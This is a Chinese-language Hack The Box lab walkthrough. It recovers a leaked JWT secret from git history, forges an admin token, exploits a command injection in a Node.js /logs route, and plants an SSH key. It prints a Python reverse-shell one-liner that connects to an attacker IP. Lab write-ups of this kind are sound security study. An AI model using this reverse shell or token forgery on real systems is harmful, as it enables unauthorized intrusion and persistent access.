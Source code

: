 [https://app.hackthebox.com/machines/408](https://app.hackthebox.com/machines/408)

nmap扫描结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232034435.png)

---

在`docs`目录介绍了如何调试api,而`3000`端口是用于api调试的,使用`postman`进行api调试

>注意格式选择`JSON`而不是`TEXT`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232048690.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232050916.png)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNiMTcwMjljNmRlNzA0NWNmMzQxNmUiLCJuYW1lIjoibWkzYWthIiwiZW1haWwiOiJtaTNha2FAbWkzYWthLmNvbSIsImlhdCI6MTY0ODAzOTgyOX0.J0uPhnjO3JNsdsPOoNd-gKbgU_d-voRaHp6BlR7Nc04
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232116060.png)

1. 尝试将`HS256`修改成`None`,无果

2. 从[http://10.10.11.120/download/files.zip](http://10.10.11.120/download/files.zip)下载源码,尝试从源码中寻找对称加密密钥

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232117299.png)

```js
//routes/auth.js

router.post('/login', async  (req , res) => {

    const { error } = loginValidation(req.body)
    if (error) return res.status(400).send(error.details[0].message);

    // check if email is okay 
    const user = await User.findOne({ email: req.body.email })
    if (!user) return res.status(400).send('Email is wrong');

    // check password 
    const validPass = await bcrypt.compare(req.body.password, user.password)
    if (!validPass) return res.status(400).send('Password is wrong');


    // create jwt 
    const token = jwt.sign({ _id: user.id, name: user.name , email: user.email}, process.env.TOKEN_SECRET )
    res.header('auth-token', token).send(token);

})
```

```
//.env

DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
TOKEN_SECRET = secret
```

但是经过验证这个`TOKEN_SECRET`不正确

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232123994.png)

列了一下目录,发现存在`.git`目录,尝试恢复git记录

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232133748.png)

`git log`查看

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232133265.png)

```
commit e297a2797a5f62b6011654cf6fb6ccb6712d2d5b (HEAD -> master)
Author: dasithsv <dasithsv@gmail.com>
Date:   Thu Sep 9 00:03:27 2021 +0530

    now we can view logs from server 😃

commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:30:17 2021 +0530

    removed .env for security reasons

commit de0a46b5107a2f4d26e348303e76d85ae4870934
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:29:19 2021 +0530

    added /downloads

commit 4e5547295cfe456d8ca7005cb823e1101fd1f9cb
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:27:35 2021 +0530

    removed swap

commit 3a367e735ee76569664bf7754eaaade7c735d702
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:26:39 2021 +0530

    added downloads

commit 55fe756a29268f9b4e786ae468952ca4a8df1bd8
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:25:52 2021 +0530

    first commit
```

`git log -p`显示每次提交所引入的差异

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232136222.png)

```
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232136553.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232141634.png)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNiMTcwMjljNmRlNzA0NWNmMzQxNmUiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im1pM2FrYUBtaTNha2EuY29tIiwiaWF0IjoxNjQ4MDM5ODI5fQ.iXPlMOgNzfMI5PpQrJsb8pxK93FlHDMIDMw4_aiVlRk
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232141021.png)

---

存在命令注入

```js
//routes/private.js

router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232147194.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232149814.png)

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.20",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232209271.png)

在`.ssh/authorized_keys`加个公钥即可使用ssh链接

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232212331.png)

---

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232215975.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203232220821.png)